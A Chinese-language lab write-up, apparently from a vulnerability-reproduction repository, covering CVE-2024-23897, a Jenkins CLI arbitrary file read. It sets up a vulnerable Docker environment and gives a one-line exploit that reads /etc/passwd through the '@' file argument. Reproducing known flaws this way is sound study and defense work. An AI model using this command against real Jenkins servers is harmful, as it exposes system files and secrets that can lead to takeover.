




# CVE-2024-23897 Jenkins 任意文件读取漏洞

​	Jenkins是一个开源软件项目，是基于Java开发的一种持续集成工具，用于监控持续重复的工作，旨在提供一个开放易用的软件平台，使软件项目可以进行持续集成。Jenkins是开源CI&CD软件领导者， 提供超过1000个插件来支持构建、部署、自动化， 满足任何项目的需要。

​	Jenkins 有一个内置的命令行界面CLI，在处理 CLI 命令时Jenkins 使用args4j 库解析 Jenkins 控制器上的命令参数和选项。此命令解析器具有一个功能，可以将@参数中后跟文件路径的字符替换为文件内容 ( expandAtFiles)。根据Jenkins 官方描述，具有Overall/Read权限的攻击者可以读取整个文件，未授权的攻击者仅能读取文件前几行内容。攻击者可以通过读取jenkins文件获取相关密钥从而实现命令执行。此功能默认启用，Jenkins 2.441 及更早版本、LTS 2.426.2 及更早版本默认不会禁用它。鉴于漏洞 exp 已公开，为避免您的资产受到影响，建议尽快安排修复升级方案

版本影响

<= Jenkins 2.441、<= LTS 2.426.2

项目地址https://www.jenkins.io/zh/

参考链接：

- https://github.com/10T4/PoC-Fix-jenkins-rce_CVE-2024-23897
- https://mirrors.jenkins.io/war-stable/


## 漏洞环境

执行如下命令启动一个jenkins:2.426.2：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`将自动跳转到jenkins安装向导界面

运行`docker ps`    `docker exec -it  xxxxx bash`  进入容器内 `cat /var/jenkins_home/secrets/initialAdminPassword`查看解锁 Jenkins码



等待安装完成 




## 漏洞复现

1，获取jenkins-cli.jar

访问http\://yourip:8080/jnlpJars/jenkins-cli.jar

即可下载

2， 读取/etc/passwd文件

`java -jar jenkins-cli.jar -noCertificateCheck -s http://yourip:8080/ help "@/etc/passwd"`



